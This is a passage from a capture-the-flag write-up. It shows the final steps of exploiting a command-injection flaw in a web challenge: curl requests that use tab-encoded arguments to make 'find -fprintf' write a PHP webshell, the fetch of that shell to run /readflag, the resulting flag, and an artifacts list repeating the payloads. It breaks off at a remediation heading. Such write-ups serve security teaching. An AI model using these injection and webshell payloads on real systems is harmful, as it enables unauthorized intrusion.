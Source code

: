     After the file was written, requesting:
    
    ```
    http://161.97.155.116:8888/p.php
    
    ```
    
    executed the backticked command inside the PHP, running:
    
    ```
    /readflag i want the flag please
    
    ```
    
    and returned the flag in the HTTP response.
    

### Final — exact output (flag)

`QnQSec{big_thanks_2_🍊_4876three}`

---

## Artifacts

- Flags: `QnQSec{big_thanks_2_🍊_4876three}`
- Files produced:
    - `/var/www/html/p.php` — the injected PHP file containing: `<?php echo` /readflag i want the flag please`; ?>` (written via `find -fprintf` + octal escapes)
- Key commands (PoC):
    - Recon / tab-splitting:
        
        ```bash
        curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%091%09-ls'
        
        ```
        
    - Write webshell (single request):
        
        ```bash
        curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%090%09-fprintf%09/var/www/html/p.php%09%27%5C074%5C077php%5C040echo%5C040%5C140/readflag%5C040i%5C040want%5C040the%5C040flag%5C040please%5C140%5C073%5C040%5C077%5C076%27'
        
        ```
        
    - Retrieve flag:
        
        ```
        http://161.97.155.116:8888/p.php
        
        ```
        

---

## Remediation recommendations

Short-term (priority)
